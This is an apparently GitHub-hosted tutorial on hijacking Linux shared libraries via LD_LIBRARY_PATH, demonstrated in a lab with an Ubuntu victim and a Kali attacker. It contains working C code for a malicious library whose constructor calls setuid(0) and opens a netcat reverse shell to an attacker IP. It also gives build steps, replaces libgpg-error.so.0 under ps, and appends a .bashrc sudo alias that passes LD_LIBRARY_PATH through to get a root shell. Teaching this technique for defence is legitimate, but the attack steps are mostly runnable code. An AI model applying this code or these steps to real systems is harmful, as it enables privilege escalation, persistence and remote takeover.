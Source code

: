 # Hijacking Shared Libraries
* * *
## Introduction To Linux Shared Libraries

You can think of shared libraries as a collection of functions and data designed to be used by multiple programs. They are typically identified by the `.so` (shared object) extension and are linked dynamically at runtime, which not only reduces the size of executables but also boosts system efficiency. However, it's important to note that any changes to a shared library can impact all the programs that rely on it.
In the Linux ecosystem, shared libraries commonly use the Executable and Linkable Format (ELF), a standard file format for executables, object code, shared libraries, etc.

## The Search Path for Shared Libraries

When a Linux application is executed, it follows a specific sequence to locate its required libraries. Once it finds the required library, it stops searching and loads that library. Here’s how the search process works:
- The application first checks the directories listed in its Runtime Library Search Path (`RPATH`), which is embedded within the executable itself.
- Next, it looks in the directories specified in the `LD_LIBRARY_PATH` environment variable. This variable allows users to define custom library paths without modifying the system-wide configuration.
- Similar to RPATH, the Runtime Search Path (`RUNPATH`) is another directory list embedded in the executable but is checked after `LD_LIBRARY_PATH`.
- The application then checks the directories listed in /etc/ld.so.conf configuration file. 
- Finally, the search proceeds to the standard system library directories, which include `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`.


## Hijcak Shared Library: A Practical Guide

Looking at how Linux searches for shared libraries reveals a potential security risk: an attacker can manipulate this process by placing malicious versions of libraries in earlier locations, thus controlling the application's behavior. This technique, known as library hijacking, exploits the order in which Linux searches for shared libraries.

One common method involves controlling the `LD_LIBRARY_PATH` environment variable. This variable allows users to override the default library paths, often used for testing new library versions. However, it can also be exploited to inject malicious libraries, altering a program's behavior or even executing harmful code to escalate privileges.

Let’s dive into a practical example. We'll demonstrate how to hijack the execution of a program on a testing machine running Ubuntu by introducing a malicious library called `mylibrary`.

### Writing the Malicious Library

First, we need to create our malicious library. The following C code defines a library that opens a reverse shell when loaded

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void revShell() __attribute__((constructor));

void revShell() {
	setuid(0);
	setgid(0);
	printf("Reverse Shell via library hijacking... \n");
		const char *ncshell = "nc -e /bin/sh 192.168.171.1 7777 &";
	system(ncshell);
}
```

The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to indicate the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.

### Compiling the Malicious Library

To compile our shared library, we use the following commands:

```sh
gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
```

- `-Wall`: Enables all compiler's warning messages.
- `-fPIC`: Generates position-independent code, suitable for shared libraries.
- `-c`: Compiles the code without linking.
- `-o`: Specifies the output file name.

### Create the Shared Library

After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name `libhax.so`

```sh
gcc -shared mylibrary.o -o libmylibrary.so
```


### Identifying a Suitable Application

After creating our malicious shared library, the next step is to use it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.

For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.

Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these libraries. The output will include something like:

```sh
ldd /bin/ps
	....
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ffff6614000)

```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/ldd_ps.png)

The `libgpg-error.so.0` library appears to be a good candidate for hijacking. It handles error reporting and is likely to be loaded but not frequently called during normal operation, minimizing the risk of breaking the program.

### Setting Up the Environment

Next, we set up the environment to hijack the `libgpg-error.so.0` library. We will rename our malicious `.so` file to match the target library and configure the `LD_LIBRARY_PATH` to point to the location of our malicious library:

```sh
cd /home/msbit/Labs/shared_lib/ld_lib_path
export LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path
cp libmylibrary.so libgpg-error.so.0
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/cp.png)

### Executing the Target Program

Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.

```sh
rlwrap nc -lvp 7777
```

Now, with our environment prepared, we can execute the `ps` command on the target's machine. 

```sh
ps
ps: /home/msbit/Labs/shared_lib/ld_lib_path/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
Reverse Shell via library hijacking... 
   PID TTY          TIME CMD
  2023 pts/18   00:00:00 bash
  2824 pts/18   00:00:00 ps
  2826 pts/18   00:00:00 sh
```

On the attacker's terminal, you should now see the reverse shell connection. This output indicates that the shell is running with the privileges of the user who executed the `ps` command. 

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/userpriv.png)

However, if the user runs `ps` command with sudo, no reverse shell will be received at the attacker side, (why is that?).

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/no_reverse_shell.png)


## Gaining Root Shell

One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable is that most modern operating systems do not pass user environment variables when using `sudo`. This behavior is controlled by the `env_reset` setting in the `/etc/sudoers` file, which is enabled by default. When `env_reset` is active, running a command with `sudo` will not include `LD_LIBRARY_PATH` or other user-defined environment variables. This can limit the effectiveness of our library hijacking attempt, as the malicious library won't be loaded when the program is executed with elevated privileges.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/sudoers.png)

One trick we can use to bypass this restriction is to create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or by adding it to the `.bashrc` file.
- Temporary Alias:

```sh
alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
```

- Persistent Alias in .bashrc

```sh
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
source ~/.bashrc
```
By setting this alias, any command run with sudo will include our modified `LD_LIBRARY_PATH`.

Let's try again, before running the `ps` command with `sudo`, set up a netcat listener on the attacker's machine to capture the reverse shell. Now, execute the `ps` command with `sudo`

```sh
sudo ps
```

On the attacker's terminal, you should see the reverse shell connection. This indicates that the shell is now running with root privileges due to the `sudo` command

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/rootShell.png)


Happy Learning... <br>
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
